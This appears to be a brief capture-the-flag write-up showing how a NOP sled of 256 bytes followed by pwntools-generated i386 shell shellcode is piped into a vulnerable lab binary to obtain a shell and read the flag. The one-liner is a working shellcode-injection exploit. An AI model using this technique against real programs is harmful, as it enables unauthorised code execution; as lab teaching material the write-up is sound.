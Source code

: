 From the source code we learned that the random generated offset is no more than 256, we can add some padding to skip the range make sure our shellcode can be loaded completely.
```
$ (python -c "import pwn;print('\x90'*256+pwn.asm(pwn.shellcraft.i386.linux.sh()))"; cat)|./vuln 
```


By executing the code we have access the shell. ``cat`` to get the flag.
```
 cat flag.txt 
```
